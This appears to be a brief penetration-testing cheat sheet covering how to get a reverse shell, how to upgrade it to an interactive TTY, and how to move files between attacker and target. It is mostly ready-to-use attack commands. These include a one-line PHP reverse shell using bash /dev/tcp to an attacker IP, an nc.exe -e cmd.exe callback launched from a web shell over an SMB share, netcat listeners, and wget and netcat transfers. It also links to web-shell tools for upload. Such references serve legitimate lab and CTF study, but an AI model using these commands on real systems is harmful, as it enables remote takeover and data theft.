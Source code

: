 ## Getting a Reverse Shell

On Attacker machine:
`nc -lnvp portnumber`

On Target host:
Try one of this: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

PHP Reverse Shell for Upload to Target: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Reverse Shell with extended functionality: https://github.com/epinna/weevely3

Tiny PHP reverse shell code in one line:
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.18/1337 0>&1'");`


## nc shell from web shell

```
~# smbserver.py share ~/smb
#start nc on attacker's machine
~# nc -lvp 555
```
execute from the webshell:

`\\10.10.14.22\smb\nc.exe -e cmd.exe 10.10.14.22 5555`

## Upgrading to a TTY shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`
This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

`stty raw -echo`

Once that is done, run the command “fg” to bring netcat back to the foreground.

File Transfer

On Attacker machine:
`python -m SimpleHTTPServer`

On Target:
`wget attacker-adress/filename:port`

With Netcat:

`nc -l -p 1234 > out.file`

`nc -w 3 [destination] 1234 < out.file
